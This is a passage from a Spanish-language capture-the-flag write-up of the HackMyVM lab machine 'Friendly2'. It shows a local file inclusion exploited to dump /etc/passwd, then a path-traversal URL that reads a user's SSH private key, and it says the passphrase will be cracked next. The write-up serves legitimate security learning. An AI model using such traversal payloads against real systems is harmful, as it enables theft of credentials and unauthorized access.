 ```bash
```

Aquí podemos ver que es posible explotar el LFI y las diferentes formas que tenemos de hacerlo.

Leo el archivo passwd para buscar usuarios.

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
gh0st:x:1001:1001::/home/gh0st:/bin/bash
```

Los usuarios que me interesan son el usuario gh0st y root.

Ahora el siguiente paso es intentar ganar acceso a la máquina, por lo que lo primero que voy a intentar es obtener la clave rsa del usuario gh0st.

`http://192.168.0.37/tools/check_if_exist.php?doc=../../../../../../../../../home/gh0st/.ssh/id_rsa`

Consigo la clave privada rsa y la uso para conectarme vía ssh, pero antes necesitamso obtener la passphrase para poder conectarnos.

Para ello usaré la herrameinta RSAcrack de d4t4s3c.

![](/assets/images/HMV/Friendly2-HackMyVM/rsacrack.webp)
